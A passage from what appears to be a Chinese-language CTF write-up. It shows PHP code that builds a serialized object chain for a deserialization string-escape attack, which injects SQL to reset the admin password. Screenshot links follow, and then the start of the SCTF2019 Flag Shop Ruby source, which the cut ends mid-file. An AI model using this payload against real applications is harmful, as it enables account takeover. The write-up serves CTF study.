 ```php
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="root";
    public $dbpass="root";
    public $database="test";
    public $name;
    public $password;
    public $mysqli;
    public $token;

}

$sql = 'update user set password=md5("admin") where username="admin"';

$d = new dbCtrl();
$d->name = 'x';
$d->password = '1';

$c = new Info();
$c->CtrlCase = $d;

$b = new User();
$b->nickname = $c;
$b->age = $sql;

$a = new User();
$a->nickname = $b;

echo '";s:8:"nickname";'.serialize($a).';}';
```

构造逃逸字符串

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211101838715.png)

发送

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211101841495.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211101841069.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211101841136.png)

## [SCTF2019]Flag Shop

robots.txt 提示 /filebak

```ruby
require 'sinatra'
require 'sinatra/cookies'
require 'sinatra/json'
require 'jwt'
require 'securerandom'
require 'erb'

set :public_folder, File.dirname(__FILE__) + '/static'

FLAGPRICE = 1000000000000000000000000000
ENV["SECRET"] = SecureRandom.hex(64)

configure do
  enable :logging
  file = File.new(File.dirname(__FILE__) + '/../log/http.log',"a+")
```